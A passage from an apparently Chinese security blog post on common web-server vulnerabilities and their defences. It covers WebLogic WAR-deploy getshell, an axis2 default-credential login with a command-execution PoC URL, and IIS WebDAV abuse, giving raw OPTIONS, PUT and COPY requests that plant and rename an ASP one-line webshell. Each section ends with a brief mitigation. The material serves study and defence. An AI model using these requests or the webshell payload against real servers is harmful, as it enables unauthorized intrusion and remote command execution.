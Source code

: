 #### getshell过程
成功登陆weblogic后台后，找到部署按钮，点击后选择安装，然后可以选择本地上传war包也可以利用远程url下载，部署完成后，weblogic会给出文件地址。
#### Weblogic漏洞防护
* 删除远程部署页面

### axis2漏洞与防护
axis2也是apache的一个项目，是新一代的SOAP引擎，其存在一个任意命令执行漏洞。（该漏洞来自补天平台）
#### axis2命令执行漏洞详情
默认后台地址：
```bash
http://localhost/axis2-admin/
```
默认账号密码：admin与axis2
登录后效果如下：
![](/upload_image/20170525/3.png)
执行系统命令poc
```bash
http://localhost/services/Axis2Shell/execCmd?cmd=whoami
```

### IIS漏洞与防护
　　IIS是微软的一款web服务器，其配置不当容易产生webdav漏洞。webdav本身是iis的一项扩展功能，开启后可以使用除了get、post以外的一些请求类型，比如put等。但如果配置不当，就会导致文件上传漏洞。除了webdav漏洞，近期还爆出了一个远程命令执行漏洞，具体移步：[IIS6.0远程命令执行漏洞(CVE-2017-7269)](http://thief.one/2017/03/29/IIS6-0%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-CVE-2017-7269/)

#### IIS Webdav漏洞详情
　　当测试一个站点是否存在webdav漏洞时，可以先构造一个OPTIONS请求，若返回200，则查看返回头的Allow参数中包含哪些方法（可以请求）。
```bash
OPTIONS  / HTTP/1.1
Host:thief.one
```
如果存在PUT方法，则可以尝试写入一个txt文件。
```bash
PUT /shell.txt HTTP/1.1
HOST:thief.one
Content-length:30

<%eval request("nmask")%>
```
　　若返回200则说明上传成功，此时可以手动访问此文件，确认是否存在。当然也有可能返回403，这表示此目录没有上传的权限，可以尝试上传到其他目录。
通过MOVE或COPY方法改文件后缀名。
```bash
COPY /shell.txt HTTP/1.1
HOST:thief.one
Destination:http://thief.one/shell.asp
```
#### IIS漏洞防护
* 关闭webdav功能

### Apache漏洞与防护
　　Apache本身也存在一些漏洞，比如slowhttp漏洞，当然官方认为其是apache的特性而不算是一种漏洞，然而事实证明它的危害真的很大。除了slowhttp漏洞以外，其第三方moudle存在很多反序列化或者远程命令执行的漏洞。
#### Apache slowhttp漏洞详情
关于slowhttp漏洞请移步：[浅谈DDOS攻击与防御](http://thief.one/2017/05/10/1/)
